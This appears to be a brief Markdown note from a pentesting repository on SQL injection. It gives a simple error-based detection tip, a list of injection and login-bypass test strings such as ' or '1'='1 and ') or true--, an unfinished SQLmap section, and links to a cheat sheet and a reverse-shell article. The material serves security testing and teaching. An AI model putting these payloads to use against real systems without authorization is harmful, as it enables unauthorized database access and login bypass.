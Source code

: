 # SQL injection

## Basic techniques
Stick `'` in a parameter and see if it throws a database error (and note what kind).

Another simple test:
```
' or '1'='1
```
Other tests:
```
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```
## SQLmap
To-do

## Further reading
* [SQL injection cheat sheet](http://pentestmonkey.net/category/cheat-sheet/sql-injection)
* [Gaining a reverse shell from SQL injection](https://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/)
